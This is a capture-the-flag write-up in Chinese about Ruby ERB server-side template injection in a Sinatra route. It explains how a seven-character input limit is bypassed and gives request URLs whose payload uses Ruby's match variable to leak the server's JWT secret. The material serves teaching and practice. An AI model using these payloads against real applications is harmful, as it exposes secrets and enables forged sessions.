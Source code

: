 ![image-20211213173045282](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b5d1531e9677633a8e7f13316a7617c6418aed9e.png)

这里需要用Ruby ERB模板注入去读取secret

源码重点部分

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth 
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

如果传入的参数do和name一致，则会输出`params[:name][0,7]} working successfully!`，这里有erb模板，并且直接把可控参数name拼接进去了，但这里有限制，最多最多只能要七个字符，除去`<%=%>`只剩两个字符可以操作

这里用`<%1%>`测试

```php
http://991b7899-2d9a-4b3b-9a4c-02dc84460e02.node4.buuoj.cn:81/work?name=%3C%25%3D1%25%3E&do=%3C%25%3D1%25%3E%20is%20working
```

![image-20211213171914741](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1dbb50b64f86d61f754ba8cbcfea1c639eeaad47.png)

```ruby
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end
```

{}类似于 ${} 代表解析里面的变量

如果params\[:SECRET\].nil为false，才能运行下一步，所以参数应该加上SECRET，如果SECRET 参数存在则对其进行匹配，用传入的这个值去和 ENV\[“SECRET”\] 匹配，匹配上了就输出flag。因为这里有匹配，就可以用ruby的全局变量 $` 。$'最后一次成功匹配右边的字符串

```php
/work?SECRET=&name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e%20is%20working
```

